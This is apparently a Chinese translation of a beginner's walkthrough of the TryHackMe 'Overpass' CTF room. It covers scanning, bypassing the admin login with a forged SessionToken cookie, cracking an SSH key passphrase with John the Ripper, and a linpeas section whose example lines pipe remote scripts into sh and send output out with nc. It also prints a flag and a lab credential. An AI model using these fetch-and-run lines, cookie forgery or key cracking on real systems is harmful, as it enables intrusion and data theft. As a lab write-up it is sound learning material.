# 天桥(记录/穿行)

> 原文：<https://infosecwriteups.com/overpass-write-up-walkthrough-95656cee4c0b?source=collection_archive---------0----------------------->



# 介绍

这是一个相对容易的[房间](https://tryhackme.com/room/overpass)让你开始使用 CTFs，请随时在 [Twitter](https://twitter.com/Nouureldin_Ehab) 和 [Linkedin](https://www.linkedin.com/in/noureldin-ehab-a57940190/) 上问我任何问题

# 侦察

在任何 CTF 中，我们需要做的第一件事就是使用 [Nmap](https://nmap.org/) 扫描开放的端口(如果你不知道什么是 Nmap，我建议你查看一下这个房间

```
sudo nmap -sS -sV {Add your machine ip here}
```

-sS 标志用于 TCP SYN 扫描

-sV 标志用于版本扫描

访问[文档](https://nmap.org/docs.html)获取更多关于旗帜和如何使用它们的信息



(这里我们看到端口 22 (ssh)和 80 (HTTP)是打开的)

现在我们知道了开放端口，我决定检查它们，让我们从 HTTP 开始

**HTTP(88):**
这是一个 web 服务器，所以我尝试通过在浏览器中写入机器 ip 地址来连接它



如您所见，在右上角有一个“关于”页面



(这些可能是我们还不知道的用户名)

现在让我们检查“下载”页面



查看源代码`downloads/src/overpass.go`我没有发现任何有趣的东西，所以至少现在让我们把它放在一边



下一步我决定使用 gobuster(它是 kali 中的一个预下载工具，这个工具是由 OJ Reeves 开发的)暴力破解目录

`gobuster --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u {Add your machine ip here}`



太棒了，现在我们找到了几个目录，让我们检查一下

让我们从`/Admin`开始吧，它是最有趣的一部

在管理员登录页面中，我尝试使用用户名(“admin”)和密码(“admin”)登录，我可以看到它调用了/api/login。我试过 XSS，但什么也没发生

我检查源代码(按下`f12`)



如你所见，这里有`main.js, and login.js`

**让我们先检查一下**`**main.js**`

****

**那里只有`Hello world!`**

****现在让我们检查一下** `**login.js**`**

****

**威胁建模**

**通过查看`login.js`文件，我们注意到当管理员凭证正确时，将会创建一个`SessionToken cookie`**

**观察 if 语句检查响应是否等于“不正确的凭证”的函数是很有趣的。如果为真，它将显示一条消息说“不正确的凭证”，如果为假，它将为返回的 statusOrCookie 设置一个名为“SessionToken”的 cookie，并将用户重定向到/admin。你可能会问，为什么这很重要？答案是它非常重要，因为它将允许我们添加任何 cookie 值，希望它能起作用(如果你想了解更多关于会话管理和 cookie 的知识，我推荐这个[博客](https://medium.com/seconset/beginner-guide-to-understand-cookies-and-session-management-4676f7c4497)**

# **剥削**

****烘烤一些饼干的时间:**
首先，我们需要使用`f12`打开开发者的工具，然后我们去存储并选择饼干，按下右上角的`+`，将名称改为`SessionToken`，将路径改为`/`**

****

**现在我们重启页面，它会把我们重定向到`/admin`，现在我们有了 RSA 密钥**

****

**现在我们需要破解这个 RSA 密钥，所以我创建了一个名为 ssh 的目录(`mkdir ssh`)，然后我在 ssh 目录中创建了一个名为 id_rsa 的文件夹(`nano id_rsa`)，我粘贴了我们在其中找到的密钥，然后我更改了访问权限(`chmod 600 id_rsa`)**

**现在我们需要下载用来破解 RSA 密钥的脚本，你可以使用这个命令下载(git 克隆[https://github.com/magnumripper/JohnTheRipper](https://github.com/magnumripper/JohnTheRipper)**

**现在我们使用这个命令`john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`运行脚本**

**现在我们知道了 RSA 密码短语`james13`**

**现在，既然我们知道了用户名(james)和 RSA 密码(james13 ),我们就可以使用这个命令尝试 ssh**

```
ssh -i ssh.key {Add your machine ip here}
yes
james13
```

****

**现在我们在 yaaaaaaay**

**现在我们使用`ls`来查看文件，我们找到两个文件`user.txt`和`todo.txt`**

**我们使用`cat`命令来查看文件内容**

```
cat user.txt
```

****

**我们发现了第一面旗帜**

*   ****黑掉机器，获取 user.txt 中的标志****

**`thm{65c1aaf000506e56996822c6281e6bf7}`**

**现在我们`cat` todo.txt**

```
cat todo.txt
```

****

# **权限提升**

**我们试试`ls -la`**

****

**我们猫`.overpass`**

```
cat .overpass
```

****

**我们可以用 [rot47 在线解密网站](https://www.dcode.fr/rot-47-cipher)来解密这个**

****

**`{"name":"System","pass":"saydrawnlyingpicture"}`**

**此时，我不知道这个用户名和密码是什么，所以我暂时忽略了它们**

**我被困在这里，所以我用这个[报道](https://briskets.io/overpass/)来学习，这些是我用来理解报道的资源**

# **[linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**

*   ****什么是**[**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**？****

****

**LinPEAS 是一个脚本，用于搜索提升 Linux/Unix*/MacOS 主机权限的可能途径**

*   ****如何使用**[**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**？****

```
#Local network
 sudo python -m SimpleHTTPServer 80 #Host
 curl 10.10.10.10/linpeas.sh | sh #Victim

 #Without curl
 sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
 cat < /dev/tcp/10.10.10.10/80 | sh #Victim

 #Excute from memory and send output back to the host
 nc -lvnp 9002 | tee linpeas.out #Host
 curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

**(关于如何使用 linpeas 的更多信息，请访问 [GitHub/linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) )**

# **克朗乔布**

*   ****什么是**[**cron job**](https://www.hivelocity.net/kb/what-is-cron-job/)**？****

**cron 作业是一个 Linux 命令，用于调度在未来某个时间执行的任务。**

# **/etc/外卖**

**我了解了 linpeas 和 cronjob**

# **⭐I 喜欢与不同的人联系，所以如果你想打招呼，我会很高兴见到你！:)**

**[**LinkedIn**](https://www.linkedin.com/in/noureldin-ehab-a57940190/)[**Twitter**](https://twitter.com/Nouureldin_Ehab)**

# **🔈🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和充满力量的讨论会议。 [**查看更多详情，在此注册。**](https://iwcon.live/)**

**[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)**